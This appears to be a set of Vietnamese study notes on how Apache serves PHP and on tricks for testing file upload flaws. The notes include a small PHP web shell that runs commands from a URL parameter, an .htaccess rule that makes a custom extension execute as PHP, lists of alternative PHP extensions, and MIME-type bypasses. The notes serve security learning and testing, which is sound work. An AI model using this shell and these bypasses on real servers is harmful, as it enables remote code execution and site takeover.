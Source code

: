 # Hoạt động của web:
  <img width="487" alt="image" src="https://github.com/shinyluck/CBJS/assets/76943559/4943dd06-b251-41f5-acdc-1e01776c7fff">
  
- Khi có gói tin HTTP được gửi đến server ví dụ GET /home.html , httpd sẽ tìm trong Document Root file home.html và đẩy ngược lại người dùng
- Apache ở chế độ mặc định không thể xử lý PHP, cần libapache mod php để xử lý hộ, quá trình như sau:
  <img width="454" alt="image" src="https://github.com/shinyluck/CBJS/assets/76943559/f4d8ddb5-cfc0-4344-83a4-8ab644317c50">

- Các file cấu hình cần biết khi làm việc với fileupload của php:
    -   File .htaccess: Dùng để để thiết lập các tùy chọn như thực thi hay loại bỏ tính năng, quản lí các truy cập website
    -   Thiết lập file .htaccess để cho phép các file có đuôi .hanhcute thực thi như 1 file php, từ đó bypass validation extension: AddType application/x-httpd-php .hanhcute


# Những trick lỏ để test fileupload

1. Upload thẳng file shell php:
   
           <?php
            if(isset($_GET['cmd']))
            {
                system($_GET['cmd']);
            }
        ?>
   Lưu ý : có thể thử bằng phpinfo() để không bị filewall chặn
3. Thêm đuôi php vào sau cấc đuôi file được phép upload , ví dụ : .png.php
4. Dùng các đuôi file khác cũng có thể thực thi php như : .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
5. Upload htaccess  để cho phép các file có đuôi .hanhcute thực thi như 1 file php, từ đó bypass validation extension: AddType application/x-httpd-php .hanhcute
6. Đổi/ không thay đổi MIME type :
<img width="355" alt="image" src="https://github.com/shinyluck/CBJS/assets/76943559/726960e9-720c-497c-8434-738381658903">

7. Thêm ký tự MIMEtype của ảnh vào để bypass validation
   
